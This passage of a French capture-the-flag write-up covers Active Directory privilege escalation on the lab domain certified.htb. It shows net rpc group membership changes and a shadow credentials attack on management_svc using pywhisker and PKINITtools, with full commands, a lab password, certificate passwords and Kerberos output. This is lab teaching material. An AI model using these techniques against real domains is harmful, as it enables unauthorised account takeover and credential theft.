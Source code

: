 $ net rpc group addmem "management" judith.mader -U 'judith.mader' -S certified.htb

$ net rpc group members "management" -U 'judith.mader' -S certified.htb            
Password for [WORKGROUP\judith.mader]:
CERTIFIED\judith.mader
CERTIFIED\management_svc
{{< /highlight >}}

### Management group -> management_svc

En revenant sur BloodHound, nous remarquons que *management_svc* est kerberoastable mais le hash obtenu n'est pas crackable.
Nous pouvons voir que les membres du groupe *management* ont la permission ```GenericWrite``` sur l'utilisateur *management_svc*.
En exploitant cette permission, nous pouvons utiliser la technique shadow credentials afin d'obtenir le NT hash de *management_svc*.
![](BH_management.png)

Premièrement, nous générons un fichier *.pfx* et l'utilisons pour alimenter l'attribut `msDS-KeyCredentialLink` de *management_svc* en utilisant Pywhisker.
{{< highlight go "hl_lines=1" >}}
$ ./pywhisker.py -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add"
[*] Searching for the target account
[*] Target user found: CN=management service,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: d1df9aac-4ae1-36e0-f803-d8e369ed930e
[*] Updating the msDS-KeyCredentialLink attribute of management_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: 9JZGbAPu.pfx
[+] PFX exportiert nach: 9JZGbAPu.pfx
[i] Passwort für PFX: c2U4qtZsMkLNEedx4nFb
[+] Saved PFX (#PKCS12) certificate & key at path: 9JZGbAPu.pfx
[*] Must be used with password: c2U4qtZsMkLNEedx4nFb
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
{{< /highlight >}}

Ensuite, nous obtenons un TGT pour *management_svc* et le NT hash en utilisant PKINITtools.
{{< highlight go "hl_lines=1 13 21" >}}
$ ./gettgtpkinit.py certified.htb/management_svc -cert-pfx 9JZGbAPu.pfx -pfx-pass c2U4qtZsMkLNEedx4nFb management_svc.ccache
2025-03-14 01:42:02,044 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-03-14 01:42:02,082 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-03-14 01:42:02,138 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-03-14 01:42:02,138 minikerberos INFO     37b5b0b8873bb21cdf40daad3dcf408af0be706f772bf52dda96dbecfa00f041
INFO:minikerberos:37b5b0b8873bb21cdf40daad3dcf408af0be706f772bf52dda96dbecfa00f041
2025-03-14 01:42:02,141 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
